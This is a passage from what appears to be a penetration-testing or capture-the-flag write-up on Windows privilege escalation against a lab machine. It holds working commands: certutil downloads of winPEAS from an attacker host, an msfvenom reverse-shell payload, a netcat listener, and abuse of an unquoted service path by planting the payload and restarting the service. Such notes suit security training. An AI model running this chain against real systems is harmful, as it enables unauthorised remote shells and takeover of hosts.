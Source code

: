 ➡️ [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

```bash
# Kali VM
cd ~/tools
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/winPEASx64.exe
mv winPEASx64.exe winpeas.exe

python3 -m http.server 80
```

```bash
# Target reverse shell
cd c:\Users\butler
certutil.exe -urlcache -f http://192.168.31.131/winpeas.exe winpeas.exe
# the file will be copied to the target machine

# Run LinPEAS
winpeas.exe
```

- Look for useful (red color) information, quick wins for privilege escalation

**Unquoted service paths**

- [Unquoted Service Paths | Red Team Notes](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)
- Abuse misconfigured services, possible when path the the service is not quoted and there are spaces in the path

![](.gitbook/assets/2024-07-14_19-07-03_629.png)

```bash
WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected
    YOU CAN MODIFY THIS SERVICE: AllAccess
    File Permissions: Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [AllAccess])
```

- Drop an exploit binary into the `C:\Program Files (x86)\Wise\` directory

```bash
# Generate an exploit
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.31.131 LPORT=7777 -f exe > Wise.exe

python3 -m http.server 80

# New terminal
nc -nvlp 7777
```

```bash
# Target reverse shell
cd C:\Program Files (x86)\Wise\
certutil.exe -urlcache -f http://192.168.31.131/Wise.exe Wise.exe

# Stop the running service
sc stop WiseBootAssistant
sc query WiseBootAssistant
sc start WiseBootAssistant
```
